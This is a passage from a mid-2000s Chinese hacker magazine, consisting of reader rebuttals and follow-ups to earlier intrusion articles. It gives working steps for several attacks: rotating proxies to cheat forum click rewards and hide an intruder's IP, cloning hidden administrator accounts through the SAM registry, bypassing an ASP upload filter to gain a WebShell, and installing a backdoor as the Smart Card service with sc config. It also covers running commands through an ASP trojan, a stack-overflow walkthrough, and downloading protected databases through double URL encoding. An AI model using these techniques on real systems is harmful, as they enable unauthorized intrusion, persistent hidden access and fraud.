这样，香港的IP地址段就出现在下图的窗口中，用鼠标配合键盘上的Shift或Ctrl键进行多选，点击“使用”按钮对选定的区域进行确定，如图9。


图5


图6


图7


图8


图9

返回到添加任务窗口，点击下一步，进入到对端口（Port）进行选择的窗口。还是点击“选用”按钮。弹出如下的窗口，如图10。


图10

再点击“打开”按钮，选择唯一的default.ppc文件，打开它。配合Shift键，选定所有协议为HTTP和SOCKS的端口，如图11。点击“使用”按钮，会弹出一个提示窗口，问你“是否必搜”，选“是”。返回到添加搜索任务窗口，点击“完成”，完成对搜索任务的添加，返回到主界面。


图11

### 2．开始搜索

为了提高搜索的效率，还得配置一下。点击工具栏上的“运行参数设置”按钮打开配置窗口，如图12。


图12

在搜索方式中选定“启用先Ping后连的机制”后确定。注意，代理猎手默认的搜索、验证和Ping的并发数分别为50、80和100。如果你的网络带宽无法提供这么大的数据量并发连接，就需要相应减少各个并发的数值，以免影响正常的网络使用。现在就可以在代理猎手主界面上点击“开始执行搜索任务”按钮，如图13。


图13

### 3．调度使用代理

经过一段时间，点击主界面的“搜索结果”标签，可以查看搜索的结果，如图14。在结果列表中找到验证状态为“Free”（也就是免费代理）的项，通过鼠标右键调出菜单将选定的代理地址加入到调度卡。可以由同样的方法，多加几个免费代理进入调度列表。


图14

进入到网页浏览器的代理服务器配置项，代理服务器地址栏填入127.0.0.1，端口栏填入8080。现在你对网页的访问浏览就是通过代理猎手中所启动的代理服务器来进行的。可由“代理调度”标签进入调度界面。由图示可知，代理猎手自动为代理服务器进行调度，每访问网站的时候，它会利用多个代理来实现浏览的功能，比起一般的单代理，这是个很大的进步。对网站的访问速度也自然会提高很多。当然，你也可以使用代理猎手的验证功能，可以把一些论坛提供的代理复制之后粘贴到一个文本文档，然后在代理猎手中选择导入，按全部验证，验证完之后选择精简结果，只保留FREE的，然后再导出来就可以了。

# 第三节 代理猎手的另类用法

上节中我们已经讲了代理猎手的详细使用功能，现在我再告诉大家一个代理猎手鲜为人知的用法。如今许多论坛都有“广告公司”这个插件，这个插件是论坛宣传手段之一，我们先看看插件的说明：让我们将这些广告代码贴到其他论坛或个人主页等地方，别人通过这个链接进入本站区，您就能获得反馈。您可根据反馈获得论坛币，请大家抱着宣传论坛的态度来对待，请勿作弊，同一IP地址在一定时间内重复点击，只算一次点击，如图15。


图15


图16

我们可以通过用不同的IP地址进行验证从而获得论坛币。


我们通过下面的图例说明操作。图16是已经领取后的广告量，全是0，我们先在代理猎手里进行验证添加，这个操作我想大家都会吧，如图17。我们再把这个验证设为默认的，如图18。然后就可以验证了，下图就是验证后的结果，如图19。

相信大家看完这三节详细的代理教程后，对于代理的一些基础知识与详细使用就应该可以掌握了。其实大部分的软件都有一些特殊的使用功能，只是大家没有想到而已。好了，要和朋友们说再见了，大家好好去实践吧！

> （文章中所涉及到的代理猎手光盘已收录）

【网络秘籍】除了本文介绍到的那些作用以外，对于入侵者，使用代理最大的好处就是可以隐藏自己真实的IP地址，让对方的跟踪追查变得更加困难，从而达到保护自己的目的。我们在网上也经常会看到新闻，说是某某黑客入侵某网站被抓，单从技术方法上来说，他们的失败主要是由于没有伪装自己的真实地址（比如没有使用代理或跳板）；另外，就是没有清除自己在对方服务器上的日志而造成的。请大家详细参考上期的菜鸟学堂及主题乐园，就会有一个更好的认识了。当然，这种恶意入侵网站的行为我们是不提倡的，在此仅是以分析技术为目的。


- **问：**什么时候需要进入带有网络支持的安全模式？  
  **答：**对于一些需要在联网条件下解决的问题，或者需要解决系统中的网络故障，例如网络打印、网络浏览、网络共享时，就需要Windows 2000提供的这种带有网络支持的安全模式。在这种模式下，Windows 2000除了装入和安全模式下一样的文件外，还增加了基本的网络配置部分。
- **问：**为什么Windows XP SP2从待机恢复时出现蓝屏，停止码为 `STOP: 0x000000D1 ... DRIVER_IRQL_NOT_LESS_OR_EQUAL`？  
  **答：**这个故障产生的原因是由于你安装了Sygate Personal Firewall，同时待机时间比较长之后进行恢复。建议升级Sygate Personal Firewall的最新版，如果还不行请卸载该软件，并使用其他防火墙工具。
- **问：**我的一个免费信箱最近无法发信了，但可以正常接收，怎么办？  
  **答：**首先确认你的发件服务器是否需要身份验证。很多ISP邮件服务器需要身份验证才能发信。OE可在“工具→账号→邮件→属性→服务器”中勾选“我的邮件需要身份验证”；Foxmail可在“帐户→属性→邮件服务器→SMTP服务器需要身份验证”中设置。
- **问：**使用金山网镖时不断提示拦截某IP地址的ICMP、IGMP数据包怎么办？  
  **答：**一般是网络中其他主机发送的无用数据包引起，已被网镖拦截，无需担心。
- **问：**开机时弹出对话框提示“缺少动态库链接文件 msnp32.dll, network，无法正常运行”，怎么办？  
  **答：**msnp32.dll是Microsoft网络功能的重要组件。可在网络属性中删除并重新添加网卡、TCP/IP协议和Microsoft网络客户端，系统会重新复制所需文件。
- **问：**为什么Win9X/Me访问不了或看不到Win2K/XP，而反过来却没问题？  
  **答：**确认Win2K/XP打开了Guest账户、启用了“浏览服务”，并确保Win9X/Me安装了“打印机和文件共享”、NetBIOS解析正常且双方未被防火墙阻挡。


# 克隆账号之我见

何扬军

看了《X档案》2005年第9期中辣M写的这篇文章后，发现文章中有几个小问题，在这里指出来，希望和大家一起进步。

### 一、关于regedt32与regedit

可能是受Win2000上克隆账号的方法的影响，辣M习惯性地用regedt32来修改权限，用regedit再来克隆账号。因为Windows 2000有两个注册表编辑器：regedit.exe和regedt32.exe。Win2000下的regedit.exe不能对注册表的项键设置权限，而regedt32.exe可以。其实在Win2003系统中regedit与regedt32是同一个程序，所以没必要分别打开两个工具来操作。

与此同步，你会发现在 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names` 下面多了一个用户名对应的项，类型值与SID存在对应关系。删除用户时系统也会删除对应项。通常管理员对应值为 `0x1f4`，克隆其他用户也应按这种对应关系处理（如图2）。


图2


图1

接下来的为当前登录用户授权访问SAM的操作就不说了，原文讲得很清楚。

## 二、关于克隆账号的操作

原文中修改注册表克隆账号时大致步骤如下：

- 1. 导出要克隆的账号的两个注册表键值与被克隆对象的一个注册表键值。  
- 2. 修改注册表键值。  
- 3. 在CMD下删除新建的用户。  
- 4. 导入注册表文件。

在克隆前先说原理：Windows用户信息存放在 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`，其中十六进制项对应用户SID；`Names` 项下保存用户名并映射到对应SID。新增用户时系统会在Users与Names下各增加一项，二者存在一一对应关系。

按此原理，克隆管理员权限本质是复制目标账号对应的 `F` 键值到新用户对应SID项中。文中进一步讨论了导出、删除、再导入步骤的必要性，认为可直接在注册表中完成复制并刷新验证；并补充了Guest相关克隆与删除用户操作中的注意事项。


图3

唉，我想说的是既然可以在CMD下删，为什么不能在图形化界面下删，或者在注册表里直接删，因为你事先已经导出注册表了……再重复一句，没必要搞这么麻烦，复制F值一切就OK！

## 三、关于克隆账号是否隐藏

一般来说新建的用户登录会在 `C:\Documents and Settings` 生成一个以用户名命名的目录……克隆一个test账号并登录后，开始菜单显示test，但目录与CMD中显示的当前用户可能仍是administrator。

而这个时候服务器的管理员用 `query user` 查看的时候会显示如图5。


别高兴得太早，这种克隆方法并不达到隐藏的目的……在几台Win2003服务器上测试时，有的服务器里克隆了账号不重启也会在CMD下显示出来并显示在计算机管理里，如图6。


另外细心的管理员在事件查看器里看一下系统登录日志，就可以看到你的登录记录……系统老老实实地记录了你的登录情况，并可能记录远程登录IP地址等信息。

## 四、关于克隆的另外思路

原文中讲了复制管理员F值的方法进行克隆号外，还说了复制管理员F值与V值的克隆方法……这里说一种另外的思路：在注册表中处理 `Names` 项下的目标账号类型并导出相关项。

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\hack]
@=hex(404)

（文中说明将404改为1f4后再导入）
```

```reg
[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\hack]
"@"=hex(1f4):...
```

保存后导入注册表文件就可以用hack用户名以及管理员administrator的密码登录系统了。至于怎么得到管理员密码……最后为了本文的完整性，这里列一下克隆账号的几个思路及我的测试结果，分别如下：

- 1. 克隆思路一：复制管理员的F值
- 2. 克隆思路二：复制管理员的权限和V值（结论：无论你的账号与管理员的密码是否一样，都无法登录）
- 3. 克隆思路三：修改指向关系，指向管理员（结论：无论你的账号与管理员的密码是否一样，都要用管理员的密码才能登录）

具体的可以参考附件上的测试动画……觉得我写得不对的地方请到论坛指出，不吝指教。

## 从look 'n' stop免费上网一文的谎言

爱无言

看了05年11期黑客X档案上关于使用look 'n' stop免费上网的文章，感觉很好，但对于文中提到的安装look 'n' stop时要注意的两点，我却有些怀疑。

对于一般的防火墙软件都需要重启电脑后才能生效……“用look 'n' stop免费上网”一文中却强调不用重启，难道这个软件可以直接使用？抱着怀疑的态度，我决定一试。

来到最近的一个网吧……按部就班地安装look 'n' stop软件，其中出现了几次如同“用look 'n' stop免费上网”一文作者说的询问硬件安装的对话框，如图1。


不必管它，选择仍然继续，直到出现如图2所示的提示。


这是询问是否重启电脑，按照“用look 'n' stop免费上网”一文作者所说，选择不重启，即选择“否”。好了，让我们运行软件，如图3。


出现了一个警告，说无法加载lnsfw1这个驱动，错误号为0。虽然确实后果不一，但程序根本无法正常运行，更不要提免费上网了。可是一旦重启，还原卡就会使之前所做的努力全部消失。


在 `C:\WINDOWS\system32\drivers` 目录下，看到了lnsfw1.sys和lnsfw.sys文件，软件正是需要它们加载才能正常运行。


可以利用服务来加载驱动。运行InstDrv程序，添加要安装的驱动程序位置，然后点Install、Start即可加载。

千万记住这里填lnsfw1.sys，要是少了那个1，系统就得蓝屏……现在再运行look'n'stop，防火墙起作用了。

虽然这个防火墙程序成功地在不重启的情况下运行了，但是我按照原文中所描述的方法却没有成功免费上网，也许这和我的实验环境有关，希望能有人再深入研究，不吝赐教。

## 对“Blog的噩梦”的补充

我在05年黑客X档案第8期的“Blog的噩梦”一文中，对利用CheckUserLogined函数漏洞进行Cookies注入做了详细说明。其次blog 2.52还有一个更大的噩梦在等着它……利用这个上传漏洞和CheckUserLogined函数漏洞相互配合，可以只用三步就得到一个WebShell！

```vb
' 初始化上传限制数据
Sub InitUpload()
  Select Case cint(DecodeCookie(Request.Cookies("cookiesname")(userlevel)))
    Case 7
      if(rs("upfile_user")=="") then
        themax=round(user.maxsize-theuped/1024)
        sAllowExt=rs("upfile_user_type")
        if(themax>rs(upfile_user_size)) then
          nAllowSize=rs("upfile_user_size")
        else
          nAllowSize=themax
        end if
      else
        sAllowExt="暂无上传权限"
        nAllowSize=0
      end if
  End Select
  sAllowExt=filtfilename(sAllowExt)
End Sub
```

以上代码是说如果你是普通用户，那么就给字符串sAllowExt赋值为后台设置的“普通会员上传文件类型”……但是请注意，接着sAllowExt还必须经过filtfilename()的检查。

```vb
Sub DoSave()
  Set oFile=oUpload.File("uploadfile")
  sFileExt=lCase(oFile.FileExt)
  Call CheckValidExt(sFileExt)
  sAllowExt=trim(sAllowExt)
  sFileExt=filtfilename(sFileExt)
  oFile.SaveToFile Server.MapPath(sUploadDir & "/" & sFileName)
End Sub
```

以上代码就是文件上传后保存到目标计算机上时，扩展名还要被filtfilename过滤一次。下面易见那个filtfilename就是过滤函数。

```vb
Function filtfilename(filename)
  If IsEmpty(filename) Then Exit Function
  filename=LCase(filename)
  filename=Replace(filename,Chr(0),"")
  filename=Replace(filename,"'","")
  filename=Replace(filename,"asp","")
  filename=Replace(filename,"asa","")
  filename=Replace(filename,"aspx","")
  filename=Replace(filename,"cer","")
  filename=Replace(filename,"cdx","")
  filename=Replace(filename,"htr","")
  filename=Replace(filename,"asaX","")
  ...
End Function
```

```vb
filename=Replace(filename,"asa","")
filename=Replace(filename,"asax","")
filename=Replace(filename,"ascx","")
filename=Replace(filename,"ashx","")
filename=Replace(filename,"asmx","")
filename=Replace(filename,"axd","")
filename=Replace(filename,"rem","")
filename=Replace(filename,"soap","")
filename=Replace(filename,"config","")
filename=Replace(filename,"cs","")
filename=Replace(filename,"csproj","")
filename=Replace(filename,"vb","")
filename=Replace(filename,"vbproj","")
filename=Replace(filename,"webinfo","")
filename=Replace(filename,"licx","")
filename=Replace(filename,"resx","")
filename=Replace(filename,"resources","")
filename=Replace(filename,"jsp","")
filename=Replace(filename,"php","")
filename=Replace(filename,"cgi","")
```

看完了，基本上应该明白了吧！简单一点说就是后台设置的上传类型要经过 `Replace(filename,"asp","")` 检查两次。漏洞就出在这里了！我们可以用“aaaspspsp”来绕过它……于是就得到一个WebShell了。老规矩，有攻就有防，漏洞修补也很简单，把filtfilename函数改成循环的就可以了。

```vb
Function filtfilename(filename)
  If IsEmpty(filename) Then Exit Function
  filename=LCase(filename)
  do
    Alen=len(filename)
    filename=Replace(filename,Chr(0),"")
    filename=Replace(filename,"'","")
    filename=Replace(filename,"asp","")
    filename=Replace(filename,"asa","")
    filename=Replace(filename,"aspx","")
    filename=Replace(filename,"cer","")
    filename=Replace(filename,"cdx","")
    filename=Replace(filename,"htr","")
    ...
    loop until Alen=len(filename)
  filtfilename=filename
End Function
```

如果过滤前的长度等于过滤后的长度，说明已经过滤得干干净净了，退出循环。轻松得到WebShell，收工！

## 对ASP木马提升权限的一点见解

Jnc

在05年第六期上有篇文章“巧妙提升冰狐浪子ASP木马权限”，看到这个文章题目，当时很是兴奋，手上的一堆ASP木马shell看来可以让我多养几台肉鸡了。但是在仔细看了该文后，我却兴奋不起来了。作者只是解决了冰狐浪子木马的运行程序没有回显的问题，并没有提升权限，也不可能提升权限，下边我就简单地来讲一讲吧！

我没有细看作者自己写的提升权限的东西，我猜测其实就是自己的cmd.exe（仅仅是猜测），因为我不相信作者写出的是可以执行任意命令的、已经跨越了权限限制的程序（至少我还不知道有这样的本地提升权限的工具存在）。那么，作者说的究竟是提升的什么权限呢？现在的ASP木马，包括冰狐浪子的ASP木马，运行程序要么使用的是Wsh，要么使用的是Application.Shell，限制了这两个，我想ASP木马是执行不了程序的。

除了这两个外，当然还可以从其他的方面限制，诸如管理员设置了cmd.exe的访问权限，或者是设置了目录的执行权限。总的来说，就是这几个限制的方法。我们通常的入侵首先就是要突破ASP的限制，这样就可以继续提升权限，因为在此之前你的权限一直都是IIS的权限，就是Guest的权限。

作者在这里突破后成功得到的也就是可以运行程序而已，而他的权限还是Guest或者是当前IIS的权限。可以得知作者并没有提升冰狐浪子木马的权限，因此后面说的删除日志文件 `c:\winnt\*.log`，也就不可能在Guest等低权限下做到。至于说下载findpass.exe执行来得到对方管理员的密码，那更是不可以了。

事实上，通过ASP木马来得到系统的管理员权限，始终是一个很大的难题。就目前来说，不外乎是利用系统本身的本地溢出，或者是不安全的第三方软件的安全配置，替换服务提升权限，或者是Serv-U溢出等；或者是在管理员的安全意识上做文章，找一些配置文件的密码，或者是做个木马等待他去运行。

```text
net user > c:\x.txt
netstat -an > c:\2.txt
shell start c:\x.txt
```

原文中提到的没有回显，我的办法是做一个批处理文件，将要执行的命令写到里面。假设C盘是可写可浏览的，你可以改成具体情况下的具体目录，执行完后浏览这几个文件就可以了。这样即使是使用不支持参数的Application.Shell，也可以运行需要参数的程序了。

## 对“一个替换Win2000服务实现”的疑问与补充

小马（S.H.C）

在黑客X档案2005年第12期上有一篇替换系统服务来隐藏后门的文章，想法很不错，可是作者却忽略了一个问题，那就是从Win2000开始就加入的Windows系统文件保护功能（WFP）。它可以防止关键系统文件被非法改写，当试图替换一个受保护的文件时，WFP检查替换文件的数字签名，以确定此文件是否合法。如果不正确，才可以替换，但是将很快被正确的文件替换回来。

好了，我们按原作者的方法，先停掉“Smart Card”服务，将我们的后门abc.exe复制到system32文件夹下，将scardsvr.exe重命名为scardsvrbak.exe，再将abc.exe重命名为scardsvr.exe，看到系统提示了什么？如图1。


也就是说系统已经将scardsvr.exe文件替换回来了，我们用批处理来试一下，打开记事本，写下面两句命令：

```text
Ren scardsvr.exe scardsvrbak.exe
Ren abc.exe scardsvr.exe
```

保存为text.bat并放到system32文件夹下执行，刷新看一看，scardsvrbak.exe文件出现了，可是看看scardsvr.exe文件呢，和原scardsvr.exe的大小是一样的，很明显，scardsvr.exe又被系统换回来了，所以这样做是行不通的。

不过我们却可以换另一个思路：第一种是停掉WFP，在命令行下运行 `SFC /REVERT` 就可以停掉WFP，可是这样会造成系统不稳定，甚至可能崩溃，所以不推荐；第二种是利用SC修改系统服务启动路径来启动我们的后门。

SC是一个修改系统服务的工具，在Windows XP/2003中是自带的，也可以在Windows 2000中使用。把后门复制到system32目录下，重命名为scardsur.exe，然后在CMD下执行以下命令：

```text
Net stop scardsvr
Sc config scardsvr binPath= c:\windows\system32\scardsur.exe
Sc config scardsvr start= auto
Net start scardsvr
```

看看我们的服务，如图2。搞定，这样一个隐藏的后门就安装好了，可以躲过大部分管理员的“火眼金睛”了！


## 对“Shellcode之菜鸟编程解析”的补充和深入发掘

刘奇

个人认为孟方明的文章是比较精彩的，总是能让人学到一些新的东西，所以但凡每一篇文章我都会认真阅读并分析。这次，又有了新的收获。本文非常有趣，如果你有C/C++方面的基础知识，那么关于字符数组你将会有新的认识，同时你能清楚地看到溢出发生的全过程，这样的机会可是很难得的哦。本文所示的代码测试环境为 Visual C++ 6.0 + Windows XP SP2，调试工具为 OllyDbg。我们先来看“Shellcode之菜鸟编程解析”中的一点小错误。下面是“Shellcode”一文中的代码：

```cpp
#include <iostream.h>
#include <stdio.h>
char *user32 = "user32";
char *shellcode = "\x90";
void func()
{
    unsigned char arg1[15];
    cout << "Please input the variable value:";
    cin >> arg1;
    cout << arg1 << endl; // 危险的代码?
}
int main()
{
    func();
    getchar();
    return 0;
}
```

注意“cout << arg1 << endl;”这行，“Shellcode”一文指出该行代码是危险的，事实上，从上一行开始就是危险代码了，做个简单的试验就清楚了。为了使代码看起来更加简洁，我们去掉一些不必要的代码和刚才的那行代码，修改后的代码如下：

```cpp
#include <iostream.h>
#include <stdio.h>
void func()
{
    unsigned char arg1[9];
    cout << "Please input the variable value:";
    cin >> arg1;
}
```

main函数和原来的一样，略。编译为Release版本，运行，输入超长数据，嘿嘿，还是发生了缓冲区溢出；准确地说是栈溢出，如图1。


发生溢出的原因是我们输入的字符串覆盖了func()函数的返回地址，但是从上面的消息来看，并不知道哪里发生了溢出。对原文的补充就到此为止。下面我们来更进一步地看看如何分析这类栈溢出的程序。问题变得有点复杂了，分析的代码如下：

```cpp
void func()
{
    unsigned char arg1[9]; // 注意该数组的大小
    cout << "Please input the variable value:";
    cin >> arg1;
    cout << arg1 << endl; // 原文代码
}

int main()
{
    func();
    getchar();
    return 0;
}
```


编译为Release版本，运行，输入超长数据（10个字符）：123456789a，哎呀，居然没有溢出，如图2。奇怪了，数组的大小不是9吗？输入10个字符竟然不溢出。没有关系，再来，输入11个字符：123456789ab，还是没有溢出，如图3。有些沮丧了。失败乃成功之母，再多加一个字符看看，这次输入12个字符：123456789abc，果然功夫不负有心人，发生溢出了，如图4。


不要高兴得太早了，奇怪的现象又发生了，程序没有弹出异常对话框。func()函数似乎又被执行了一次，我们被要求再次输入。再次输入123456789abc看看，这次有了不同的结果，我们熟悉的异常对话框终于出现了，如图5，注意异常发生的地址是0040220e。

## 先总结我们没有搞清楚的问题

- 我们定义了大小为9的字符数组，为什么输入12个字符才发生了溢出呢？
- 为什么func()函数执行了两次？
- 为什么两次相同的输入得到不同的结果（图5）？

下面就随我一起拨开团团迷雾，拿出我们经典的调试工具OllyDbg，加载程序，定位func()函数，定位的方法是通过字符串“Please input the variable value:”，在函数的起始处按F2下断点，F9运行，顺利中断，从堆栈窗口可以看到从func()函数返回后的地址（也叫做返回地址），如图6。


从第一个返回可以看出func()函数的返回地址是00401055，那么第二行的返回是什么意思呢？假如有这样一个函数调用流程：A()->B()->C()，那么返回地址可以这么理解，C()返回到B()，B()返回到A()。为了更进一步地看清楚溢出发生的全过程，我们只好看OllyDbg的反汇编代码了，我加入了注释以方便大家理解。为了节省篇幅，同时让代码看起来更清爽，我删除了机器码，最后的代码如下：

# 补丁铺


我们回过头来分析前面的问题，先来看输入 `123456789ab` 后的内存布局。注意到C/C++中字符串以 `\0` 结尾。调用语句 `cin >> arg1` 时会自动在字符串尾部加上一个 `0`。如果输入12个字，`func()` 函数的返回地址会被覆盖，从而导致函数再次返回到 `func()`，这就是函数执行两次的原因。

第一个汇编代码：`SUB ESP,0C` 是为局部变量 `arg1` 分配空间。虽然只定义了大小为9的字符数组，但VC Release版本为了数据对齐会多分配字节，变成12个。对于11（加上结尾 `\0` 共12）字节输入通常不会溢出，继续增加输入才会看到溢出发生。


```cpp
void func()
{
    unsigned char arg1[9];
    cout << "Please input the variable value";
    cin >> arg1;
    for (int i=0; i<13; i++)
    {
        printf("%x", arg1[i]);
    }
    cout << arg1 << endl;
}
```


这里还可以继续追问：是否能通过特殊输入让 `func()` 执行多次。文中指出尝试以 `func()` 地址覆盖返回地址，但由于控制台输入对某些ASCII控制字符输入受限，该方法不可行。

该程序的输入如图7，能够看到12个字符空间和结尾的 `0`。

# 菜鸟动画，哭笑洞主

# 周玲生——对近期三篇文章的不同见解商榷

首先是06年第1期《QQ强制加对方为好友新招》一文。作者称若按文中步骤操作，原有好友会被“替换”。笔者多次试验后认为并不会真正消失，重启QQ并再次登录后原好友号码仍在。

再看《MSDTC远程溢出初体验》一文。文中“MSDTC默认已安装且默认自动启动”的说法并不完全准确：不同Windows 2000版本中该服务的默认安装/启动状态存在差异。


在命令行提示符下使用 `net start msdtc` 启动该服务时可以发现它监听1031端口，并固定监听3372端口，如图2。


因此必须强调的是：尽管在测试时可先通过第三方工具检测端口，但在实际使用中，即使先用漏洞扫描工具检测出漏洞主机，也只能缩小大致范围，MSDTC监听端口并不固定在大于1024的某一个端口。

最后再来说说06年第2期《用户登录系统的安全考虑》一文。作者给出结论：`C:\WINDOWS\system32\config\systemprofile` 是管理员登录用户配置，可通过改动使新建管理员无法本地或远程登录。文中随后给出在Windows XP SP2、FAT32/NTFS环境下的验证过程，包括重命名目录、使用 `net user` 与 `net localgroup` 新建管理员账号并测试登录。

经过多次试验，文章描述了FAT32与NTFS下的不同表现：如生成0字节目录、`Application Data` 子目录变化、登录后出现系统字体变化等异常，并给出“Windows不能加载用户配置文件”的提示现象（如图3）。

看了两年多的X，每次读完都感受良多。写此文并非吹毛求疵，而是希望精益求精；学习黑客技术绝不能人云亦云，必须动手实践，才能得出真知。


（补充说明）文中再次强调：MSDTC服务端口具有随机性，不能仅凭扫描1025、1026等端口即判断对方开放了MSDTC服务。

# 对“狸猫”换“太子”下载按钮——一文的补充

风卷玉箫

06年第2期的X档案中，作者讨论了网吧常禁下 `ZIP/RAR/EXE` 文件的现象，并提出把文件“伪装”为可下载类型以绕过限制。文中对“是否有更简单方法”提出疑问，并给出更直接的改名思路。

作者对“使用UltraEdit将压缩包或可执行文件隐藏进jpg/gif再上传”的做法进行评价：方法可行但操作成本高，文件多时工作量很大，因此建议优先考虑直接扩展名改名策略。


继续分析后指出：关键不在上传时修改，而在下载时改名。对QQ网络硬盘或邮箱附件，可在允许的阶段将扩展名改为可下载类型（如 `jpg`），下载完成后再改回原扩展名。

- 对QQ网络硬盘文件：右键目标文件，先用“重命名”把扩展名改成允许下载类型（如 `jpg`），下载后再改回原扩展名。
- 对邮箱附件：下载前通常不能直接改附件名，但可在“另存为”对话框中选择保存路径并将文件扩展名改成允许类型，再下载。

结论：这两种办法不依赖第三方工具，省时省力；遇到类似问题应多动脑、多实践，通常都能找到可行解法。

# 补丁铺

# 免费电话软件


上期的杂志中gighteen为大家介绍了Globe7免费电话软件，我迫不及待地试用了一下（哈哈，免费的谁不喜欢），确实不错，但令人讨厌的是申请时的邮箱必须为yahoo或msn的，而且一个IP地址只能申请一次，一美元的话费用完后，我们只能换个IP（对于普通宽带个人用户，重新拨一次号，IP就变了），换个邮箱重新进行申请，这很是麻烦。下边我就为大家隆重推荐另一款免费电话软件WengoPhone，这个软件我用了一个多月哦，至今依然可以免费电话。而且这款软件还可以免费发短信（不需要绑定手机）和视频聊天，而且支持多国语言，虽然不能支持简体中文，但支持繁体中文，相信识字的朋友都能看得懂的！


WengoPhone安装后的界面如图1所示，界面很简洁，让人看了也很舒服。点击Click here进入注册界面（图2）。注册的邮箱账号没有什么限制，不必非得使用yahoo或msn的了，我们填写自己真实的邮箱地址，几分钟后在我们的邮箱里就会收到信件（图3）。注册成功了，使用注册的邮箱及得到的密码进行登录，如图4，界面还是很简约的。直接在下面的输入框中输入电话号码就能打电话了，如图5。WengoPhone还可以用来发短信，我用自己的手机测试了一下很快就收到了信息，截图6。最后再说一下汉化的方法，点击菜单栏的“Wengo”选择Configuration，找其中的language选项即可，如图7。


WengoPhone的官方主页上说可以免费使用100分钟，如果想使用更长时间那就多申请几个邮箱吧，可是没有任何IP限制的哟！（文章中涉及到的软件WengoPhone，已经收录于光盘中）


# 对“安全要这样玩”一文的质疑

## 爱无言

最近在研究一个网站，很难攻破，于是就翻出以前的黑客X档案来进行参考，或许会有意想不到的收获。

随手翻开了去年12期的黑客X档案，像见了老朋友一样，我一页一页重新品味起来。在杂志中看到一篇名为“安全要这样玩”的文章时，文中提到一个数据库防下载的办法，原文作者花之骄子说，这个方法说不定又是个首创，我不敢苟同，于是想用实践来证明一下。

作者的方法是，利用将数据库命名为“%2Fdata.asp”的方式，当 IE 在解析这样的数据库名时，会导致解析失败而无法下载，因为“%2F”是 URL 编码，经过转换就成了“/”符号。这样如果你要下载的网址数据库路径为“http://attack.com/%2Fdata.asp”，被转换后成了“http://attack.com//data.asp”，而双“/”会被认为是一个“/”符号，这样“http://attack.com/data.asp”当然是不存在的，从而导致下载失败。

这样看来，花之骄子说的并不错，可是作者随后说到“本来我以为只要再次对‘%’号进行解析 URL 编码为‘%25’，但我解析后发觉依然无法下载……”，作者附了两张使用 flashget 下载数据库的图片，一个是按照 http://attack.com/%2Fdata.asp 下载，一个是按照 http://attack.com/%252Fdata.asp 下载，均告失败。但是，在我的印象里，双次编码是可以绕过很多限制的，包括因为一次编码解析导致的错误，都是可以绕过的。让我们看看实际操作的结果。

我在自己的电脑上安装了 IIS，然后建立虚拟目录，在网站目录下建立数据库文件 %2Flove.asp，然后我试图用 IE 访问，提示“无法找到文件”，如图1。

使用网际快车下载，也是下载失败，文件找不到，如图2。

现在，让我们修改一下，在网际快车的文件下载地址栏中，改为：http://localhost/1/%252Flove.asp，再下载看看，如图3、图4，我们成功地下载了数据库文件“%2Flove.asp”。

到这里也纠正了作者的小小失误。其实防数据库下载的方法已经很多了，作者为了捉弄入侵者才想到利用这个办法，其实捉弄入侵者何必这样，利用出错重定向的方法，也就是 IIS 中的“自定义错误信息”一项中，把错误重定向到一个自己编写的文件中。一般把 500、100 号以及 404 号 HTTP 错误定位到本地一个文件中，如图5。我这里把它定向到 `11.htm`，在 `11.htm` 中我就写了一个 `<script>alert("够了吗");</script>`，在这里你可以写个循环语句弹出上万个窗口来惩罚入侵者，看看我们的效果，如图6。需要注意的就是要在数据库中加个长二进制数据的表来防止下载，导致出现错误，从而重定向到我们定义的惩罚页面。

# 脱壳闯荡如此化

## 愿风随缘

在看了上期杂志中“菜鸟脱壳之工具结合篇”一文后，我感觉既然是给菜鸟用的脱壳工具，那么就应该是容易操作的。如果像文章作者战神 MARS 所说的那样来操作，脱壳就会需要很多的工具，查壳完后还要在众多的工具中寻找，未免显得有些麻烦。现在我给大家介绍一个我常用的脱壳工具——EasyUnpack。专门介绍给那些菜鸟兄弟使用哟，几乎全自动化的！

关于一些基础的原理，战神大哥已经讲得很清楚了，我就不在这里浪费时间了。EasyUnpack 可以脱一些常用的壳，如 Aspack、UPX 等。EasyUnpack 运行后的界面非常简洁，如图1。只要先选要脱壳的文件，然后选择设置中的“重建输入表”和“优化文件结构”，再按“开始脱壳”就可以了。够简单的吧！接下来就看我的操作！

- 情况一：跟战神大哥一样，先使用 PEiD 查壳，如图2，可以得知是使用 UPX 加的壳，接下来的操作就按我们上边讲的那样去做就可以了，EasyUnpack 会自动操作。随后就会弹出一个程序保存对话框，设置好保存路径后就会产生一个叫“Dumped.exe”的未加壳程序。

- 情况二：EasyUnpack 对于一般的加壳程序是有效的，但是并非全部都可以，这样一来 EasyUnpack 的自动化就没效了，需要我们手动操作。不过也是很简单的。我们需要的方法就是手动跟踪调试软件去寻找脱壳的入口点。使用 PEiD 打开要脱壳的程序，在左上角就会看到有一个入口点（图3），再在 EasyUnpack 中的“指定入口点”下输入刚查到的入口点，如图4，再开始脱壳。怎么样，够简单的吧！只要有了这两个软件就可以脱遍天下无敌壳了。（本文所涉及的软件：EasyUnpack、PEiD，光盘已收录）